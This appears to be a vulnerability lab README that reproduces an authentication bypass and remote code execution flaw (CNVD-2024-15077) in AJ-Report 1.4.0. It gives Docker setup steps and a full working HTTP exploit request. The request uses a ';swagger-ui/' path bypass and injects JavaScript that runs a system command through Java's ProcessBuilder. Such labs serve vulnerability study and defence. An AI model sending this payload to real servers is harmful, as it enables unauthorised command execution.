

# AJ-Report Authentication Bypass and Remote Code Execution (CNVD-2024-15077)

[中文版本(Chinese version)](README.zh-cn.md)

AJ-Report is an open source BI platform. In the version 1.4.0 and before, there is a authentication bypass issue and the attacker is able to perform arbitrary code execution through the issue.

References:

- <https://xz.aliyun.com/t/14460>
- <https://github.com/wy876/POC/blob/main/AJ-Report%E5%BC%80%E6%BA%90%E6%95%B0%E6%8D%AE%E5%A4%A7%E5%B1%8F%E5%AD%98%E5%9C%A8%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md>

## Vulnerable environment

Execute following command to start a AJ-Report server 1.4.0:

```
docker compose up -d
```

After the server is started, you can see the login page of AJ-Report through `http://your-ip:9095`.

## Exploit

To exploit the issue by following request:

```
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: your-ip:9095
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json;charset=UTF-8
Connection: close
Content-Length: 339

{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"id\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}
```

As you can see, `id` command is executed successfully:


